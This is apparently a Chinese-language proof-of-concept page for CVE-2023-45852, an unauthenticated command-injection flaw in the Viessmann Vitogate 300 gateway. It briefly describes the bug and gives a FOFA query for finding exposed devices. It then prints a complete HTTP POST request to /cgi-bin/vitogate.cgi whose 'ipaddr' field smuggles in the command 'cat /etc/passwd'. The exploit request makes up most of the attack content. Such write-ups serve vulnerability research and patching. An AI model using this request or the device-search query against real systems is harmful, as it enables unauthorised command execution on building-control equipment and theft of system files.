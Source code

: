 # Viessmann Vitogate RCE 漏洞（CVE-2023-45852）

# 一、漏洞简介
Viessmann Vitogate 300是用于将Viessmann LON连接到BACnet或Modbus的网关。Vitogate 300组件/cgi-bin/vitogate.cgi中的一个问题允许未经身份验证的攻击者绕过身份验证，通过特制的请求执行任意命令，可导致服务器失陷。

# 二、影响版本
+ Viessmann Vitogate 300

# 三、资产测绘
+ fofa`app=”Vitogate-300”`
+ 特征

![1707059485948-359f6933-eb77-4147-aa79-353f587ead29.png](./img/6dQ4EvIoNFpWhwei/1707059485948-359f6933-eb77-4147-aa79-353f587ead29-940674.png)

# 四、漏洞复现
```plain
POST /cgi-bin/vitogate.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: langCookie=en
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 87

{"method":"put","form":"form-4-8","session":"","params":{"ipaddr":"1;cat /etc/passwd"}}
```

![1707059530155-faca9058-dfe5-4cf3-819c-73e8e71af6df.png](./img/6dQ4EvIoNFpWhwei/1707059530155-faca9058-dfe5-4cf3-819c-73e8e71af6df-407474.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/llhplei5z29a1kqg>